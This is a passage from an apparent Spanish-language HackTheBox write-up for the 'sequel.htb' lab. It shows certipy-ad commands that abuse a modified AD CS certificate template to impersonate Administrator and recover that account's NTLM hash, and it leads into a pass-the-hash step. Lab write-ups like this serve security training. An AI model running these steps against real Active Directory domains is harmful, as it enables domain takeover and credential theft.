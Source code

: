 <figure><img src="../../.gitbook/assets/3513_vmware_cCaeOaLkWL.png" alt=""><figcaption></figcaption></figure>

Procederemos a explotar el Template modificado para solicitar un certificado suplantando al usuario `Administrator`.

Al obtener el certificado `administrator.pfx`, procederemos a recuperar el hash NTLM del usuario `Administrator`, también se nos ha generado un archivo `administrator.ccache` que también podremos utilizar para autenticarnos.

{% code overflow="wrap" %}
```bash
certipy-ad req -u 'ca_svc@sequel.htb' -p 'Password01!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn Administrator -dc-ip 10.10.11.51

certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/3514_vmware_SSfWzjiIeG.png" alt=""><figcaption></figcaption></figure>

### Pass-The-Hash on EvilWinRM
